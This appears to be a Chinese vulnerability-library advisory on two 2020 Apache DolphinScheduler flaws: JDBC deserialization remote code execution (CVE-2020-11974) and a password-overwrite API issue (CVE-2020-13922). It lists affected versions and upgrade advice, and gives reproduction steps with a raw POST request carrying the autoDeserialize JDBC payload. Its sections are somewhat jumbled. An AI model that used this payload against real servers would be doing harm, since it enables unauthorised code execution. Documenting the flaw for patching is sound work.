 ```yaml
---
title: 'Apache-DolphinScheduler高危漏洞（CVE-2020-11974、CVE-2020-13922）.assets'
date: Sun, 13 Sep 2020 10:22:11 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 漏洞描述

Apache软件基金会发布安全公告，修复了Apache DolphinScheduler权限覆盖漏洞（CVE-2020-13922）与Apache DolphinScheduler远程执行代码漏洞（CVE-2020-11974）。 CVE-2020-11974与mysql connectorj远程执行代码漏洞有关，在选择mysql作为数据库时，攻击者可通过jdbc connect参数输入{“detectCustomCollations”:true，“ autoDeserialize”:true} 在DolphinScheduler 服务器上远程执行代码。 CVE-2020-13922导致普通用户可通过api interface在DolphinScheduler 系统中覆盖其他用户的密码：api interface /dolphinscheduler/users/update，请相关用户及时升级进行防护。

#### 影响范围

Apache DolphinScheduler权限覆盖漏洞（CVE-2020-13922）

#### 受影响版本

Apache DolphinScheduler = 1.2.0、1.2.1、1.3.1

#### 不受影响版本

Apache DolphinScheduler >= 1.3.2 Apache DolphinScheduler远程执行代码漏洞（CVE-2020-11974） 它是⼀个分布式去中⼼化，易扩展的可视化DAG(有向⽆环图)⼯作流任务调度系统。利⽤漏洞:需要登录权限, \[09/12 态势感知\]提供⼀组默认密码。 该漏洞存在于数据源中⼼未限制添加的jdbc连接参数,从⽽实现JDBC客户端反序列化。

1、登录到⾯板 -> 数据源中⼼。

 ![](Apache%20DolphinScheduler%E9%AB%98%E5%8D%B1%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2020-11974%E3%80%81CVE-2020-13922%EF%BC%89/wp_editor_md_82bb068553ed084522f99c82bb20138f.jpg)

2、jdbc连接参数就是主⻆,这⾥没有限制任意类型的连接串参数。 ![](Apache%20DolphinScheduler%E9%AB%98%E5%8D%B1%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2020-11974%E3%80%81CVE-2020-13922%EF%BC%89/wp_editor_md_3554066562de399e0d191c5ce7d803ab.jpg)

3、将以下数据添加到jdbc连接参数中,就可以直接触发。 ![](Apache%20DolphinScheduler%E9%AB%98%E5%8D%B1%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2020-11974%E3%80%81CVE-2020-13922%EF%BC%89/wp_editor_md_15a00215f3b910880ff67daed2b15f71.jpg)

```
POST /dolphinscheduler/datasources/connect HTTP/1.1
type=MYSQL&name=test¬e=&host=127.0.0.1&port=3306&database=test&
principal=&userName=root&password=root&connectType=&
other={"detectCustomCollations":true,"autoDeserialize":true} 
```



```

#### 受影响版本

Apache DolphinScheduler = 1.2.0、1.2.1

#### 不受影响版本

Apache DolphinScheduler >= 1.3.1

#### 修复建议

官方升级 目前官方已在最新版本中修复了此次的漏洞，请受影响的用户尽快升级版本至1.3.2进行防护。
官方下载链接： https://dolphinscheduler.apache.org/zhcn/docs/release/download.html
```